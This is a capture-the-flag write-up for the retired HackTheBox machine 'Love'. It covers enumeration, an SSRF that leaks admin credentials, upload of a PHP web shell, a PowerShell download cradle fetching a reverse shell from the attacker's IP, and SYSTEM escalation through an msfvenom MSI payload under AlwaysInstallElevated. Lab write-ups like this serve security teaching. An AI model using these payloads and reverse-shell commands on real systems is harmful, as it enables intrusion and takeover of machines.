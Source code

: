 # Love

This is the write-up for the box Love that got retired at the 7th August 2021.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.239   love.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/love.nmap 10.10.10.239
```

```
PORT     STATE SERVICE      VERSION       
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Voting System using PHP
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| tls-alpn:
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTPS (Port 443)

The web page on port 443 shows the HTTP status code _403 Forbidden_, but the SSL certificate has some valuable information.

There is a common name _staging.love.htb_ that has to be put into the _/etc/hosts_ to access it.
The email address has the name _roy_ in it, which could be a potential username.

Unfortunately the hostname also resolves in the HTTP status code _403 Forbidden_.

## Checking HTTP (Port 5000)

The web page on port 5000 shows the HTTP status code _403 Forbidden_.

## Checking HTTP (Port 80)

The web service on port 80 shows a login form to a _Voting System_ with the title _"Voting System using PHP"_:

![Voting system login](love_web-1.png)

Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.239 dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
```

It finds the directory _/admin_ with a similar login form.

The hostname _staging.love.htb_ forwards to another service called _Free File Scanner_.
The menu _Demo_ allows us to specify an URL to scan a file:

![Free File scanner demo](love_web-2.png)

It is possible to specify the other web services and it can be used to enumerate them.
By specifying localhost and the port, it shows the web page behind the service:

![Exploiting SSRF vulnerability](love_web-3.png)

```
Vote Admin Creds admin: @LoveIsInTheAir!!!!
```

The credentials work on the _/admin_ login form found earlier.

### Exploiting Voting System

There is a link in the footer to the source of the application which is a [project on sourcecodester.com](https://www.sourcecodester.com/php/12306/voting-system-using-php.html).

In the menu _Voters_ it is possible to add a new entry and upload a photo:

![Upload image](love_web-4.png)

This might be vulnerable to an arbitrary file upload if it does not validate images and it may be possible to upload PHP files to execute code.
Lets upload an image and forward the request to a proxy like **Burpsuite** and change the image data to PHP code:
```
POST /admin/voters_add.php HTTP/1.1
Host: 10.10.10.239
(...)
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: image/jpeg

<?php
system($_REQUEST['cmd']);
?>
(...)
```

The file gets uploaded to _/image/shell.php_ and it is possible to execute system commands:
```
http://10.10.10.239/images/shell.php?cmd=whoami
```

This can now be used to upload and execute a reverse shell script.
I will use the _Invoke-PowerShellTcpOneLine.ps1_ script from the **Nishang scripts**:

```
POST /images/shell.php HTTP/1.
(...)

cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/shell.ps1')"
```

After sending the request, the script gets downloaded and executed and the listener on my IP and port 9001 starts a reverse shell as the user _phoebe_.

## Privilege Escalation

To get an attack surface, it is recommended to run any **Windows Enumeration Script**:
```
curl 10.10.14.8:8000/winPEASx64.exe -o winpeas.exe

.\winpeas.exe
```

The [AlwaysInstallElevated](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated) registry key is enabled which allows to execute **.msi** files with SYSTEM permissions.

Creating reverse shell payload with **Msfvenom**:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=9002 -f msi > payload.msi
```

Downloading payload to the box:
```
C:\Users\Public\Documents> curl 10.10.14.8:8000/payload.msi -o payload.msi
```

Executing the payload:
```
msiexec /q /i payload.msi
```

After executing the payload, the listener on my IP and port 9002 starts a reverse shell as _SYSTEM_!
